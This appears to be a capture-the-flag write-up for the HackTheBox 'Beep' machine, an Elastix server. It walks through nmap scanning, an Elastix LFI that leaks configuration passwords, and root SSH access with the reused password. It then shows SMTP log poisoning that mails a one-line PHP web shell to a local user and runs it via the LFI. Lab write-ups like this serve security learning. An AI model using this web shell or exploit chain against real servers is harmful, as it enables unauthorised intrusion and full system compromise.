




## Beep


## Scanning

### Nmap Scanning


- default scan

```bash
$ nmap   10.10.10.7                                                                   130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-06 12:47 EDT
Nmap scan report for 10.10.10.7
Host is up (0.096s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4445/tcp  open  upnotifyp
10000/tcp open  snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 8.32 seconds
```

```bash
$ nmap -sC -sV  -p22,25,80,110,111,143,993,995,3306,4445  10.10.10.7                  130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-06 12:48 EDT
Nmap scan report for 10.10.10.7
Host is up (0.11s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp   open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp   open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp  open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: TOP USER IMPLEMENTATION(Cyrus POP3 server v2) APOP AUTH-RESP-CODE EXPIRE(NEVER) STLS UIDL PIPELINING LOGIN-DELAY(0) RESP-CODES
111/tcp  open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp  open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: CHILDREN ATOMIC Completed MULTIAPPEND SORT OK CATENATE URLAUTHA0001 UIDPLUS BINARY CONDSTORE ANNOTATEMORE LISTEXT ACL X-NETSCAPE LIST-SUBSCRIBED LITERAL+ THREAD=REFERENCES THREAD=ORDEREDSUBJECT NO SORT=MODSEQ IDLE NAMESPACE IMAP4rev1 QUOTA ID UNSELECT MAILBOX-REFERRALS RENAME IMAP4 STARTTLS RIGHTS=kxte
993/tcp  open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp  open  pop3       Cyrus pop3d
3306/tcp open  mysql      MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
4445/tcp open  upnotifyp?
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 390.80 seconds
```


## Enumeration

- Webpage



- on searching `searchsploit elastix` found `LFI` (`graph.php`)

```bash
$ searchsploit elastix         
---------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                |  Path
---------------------------------------------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                                                         | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                                       | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities                                 | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                                              | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                                             | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                                            | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                        | php/webapps/18650.py
---------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- ERxamine the POC and run the exploit



__Result__


- view source for better readability.
- on examing found few potential passwords and tried ssh
- Potential passwords found
```bash
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

> ssh resulted in error

```bash
$ ssh root@10.10.10.7                                             
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

- after adding `KexAlgorithms` it worked 

__Result__

```bash
ssh -o KexAlgorithms=diffie-hellman-group1-sha1 root@10.10.10.7
The authenticity of host '10.10.10.7 (10.10.10.7)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
root@10.10.10.7's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# 
```


### RFI using SMTP

- telnet to `smtp` and send mail to user `asterisk` (for potential users `cat /etc/passwd` in LFI) then use the request the `log file` (`/var/mail/<user>`) to see the injected code


__step 1__

- telnet to victim machine and on connection send hello `EHLO` along with identifier `shashi.beep.htb` (any id)

```bash
$ telnet 10.10.10.7 25    
Trying 10.10.10.7...
Connected to 10.10.10.7.
Escape character is '^]'.
220 beep.localdomain ESMTP Postfix
EHLO shashi.beep.htb
250-beep.localdomain
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-ENHANCEDSTATUSCODES
250-8BITMIME
250 DSN
```

- And then use `VRFY` to verify the existing user (e.g `asterisk`) in out case

```bash
VRFY asterisk
252 2.0.0 asterisk
```

- we can also use ` VRFY asterisk@localhost`

- Now compose an email

__step 2__

```bash
mail from:shashi@htb.com
250 2.1.0 Ok
rcpt to:asterisk@localhost
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
Subject:You got hacked
<?php echo system($_REQUEST['cmd']) ; ?>
##### this is ablank line
.
250 2.0.0 Ok: queued as 0053BD92FD

```

- Now request the mail log, located in `/var/mail/asterisk`



- Now use `&cmd=<command>` at the end of the url,


